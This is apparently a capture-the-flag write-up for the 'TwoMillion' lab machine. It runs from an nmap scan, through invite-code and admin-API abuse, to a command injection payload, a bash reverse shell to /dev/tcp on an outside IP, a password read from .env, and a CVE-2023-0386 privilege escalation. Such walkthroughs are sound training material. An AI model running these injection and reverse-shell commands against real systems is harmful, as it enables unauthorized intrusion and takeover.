Let's scan IP `10.10.11.221`
```bash
sudo nmap -v -sC -sV 10.10.11.221 -oN ../nmap-scan
```
```bash
Nmap scan report for 10.10.11.221
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Let's go to the site

![image](images/20250401201116.png)

There is a page on the site where you need to enter an invite code to create an account. On this page there is a `JavaScript` file:
```JavaScript
function verifyInviteCode(code)
	{
	var formData=
		{
		"code":code
	};
	$.ajax(
		{
		type:"POST",dataType:"json",data:formData,url:'/api/v1/invite/verify',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
function makeInviteCode()
	{
	$.ajax(
		{
		type:"POST",dataType:"json",url:'/api/v1/invite/how/to/generate',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
```
This code is obfuscated `JavaScript`, which after unpacking via `eval()` makes HTTP requests to the API. I unpacked it using this [site](https://matthewfl.com/unPacker.html). `POST` requests are sent to the endpoint
```Endpoint
/api/v1/invite/how/to/generate
```
Let's try to navigate to it

![image](images/20250401201506.png)


![image](images/20250401201731.png)

Since a `GET` request was sent, the server did not accept it. Let's change the request method

![image](images/20250401201824.png)

We see this response:
```Response
"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"
```
The message is encoded `ROT13`. Decode it

![image](images/20250401202013.png)

```Encrypted
In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate
```

![image](images/20250401202100.png)

Get the encoded invitation code
```InviteCode
VVA2MkstNjZLMEstQTE1WlAtNVZFSlA=
```
Most likely it is `BASE64`. Decode it

![image](images/20250401202626.png)

```InviteCode
UP62K-66K0K-A15ZP-5VEJP
```

![image](images/20250401202820.png)


![image](images/20250401202849.png)


![image](images/20250401202945.png)

All navigation buttons are inactive except `Access`. Let's go to this page and click `Connection Pack`. In the intercepted request we see the endpoint:

![image](images/20250401204318.png)


![image](images/20250401204330.png)

```Endpoint
/api/v1/user/vpn/generate
```
Let's try to follow the path of this `API`

![image](images/20250401204405.png)

We see that `admin` has 3 endpoints. Let's try to grant ourselves admin rights through the endpoint `/api/v1/admin/settings/update`, which uses the `PUT` method.

![image](images/20250401205456.png)

Writes `Invalid content type`. Most likely, `JSON` is needed here, that is, you need to add the line `Content-Type: application/json` to the request

![image](images/20250401205620.png)

Now the `email` parameter is missing. Let's add it

![image](images/20250401205826.png)

Now the `is_admin` parameter is missing. Add it too

![image](images/20250401205940.png)

Now let's check if admin rights have appeared

![image](images/20250401210044.png)

Now we can use the remaining endpoint `/api/v1/admin/vpn/generate`

![image](images/20250401211418.png)

We still adjust the request so that it works

![image](images/20250401211509.png)

Let's try to execute the command `whoami`:
```bash
dex1d; whoami #
```

![image](images/20250401211545.png)

Let's try to implement `Reverse Shell`
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.192/443 0>&1'
```

![image](images/20250401212528.png)


![image](images/20250401212540.png)

The `.env` file contains the admin password. Let's try to connect to it via SSH

![image](images/20250401212906.png)

```Password
SuperDuperPass123
```

![image](images/20250401212955.png)

Let's check the `var` directory

![image](images/20250401213729.png)

The letter talks about the need to fix the OS, and also mentions the `OverlayFS / FUSE CVE`. Let's check the OS and kernel version
```bash
uname -a
cat /etc/lsb-release
```

![image](images/20250401214033.png)

If you google it, it says `CVE-2023-0386`

![image](images/20250401214435.png)

Let's use [PoC](https://github.com/puckiestyle/CVE-2023-0386)
It's not possible to simply clone the repository on the machine. So I had to download it and send it using `SCP`
```bash
scp CVE-2023-0386-main.zip admin@10.10.11.221:/tmp
```
Next, follow the instructions `PoC`

![image](images/20250401215325.png)


![image](images/20250401215339.png)


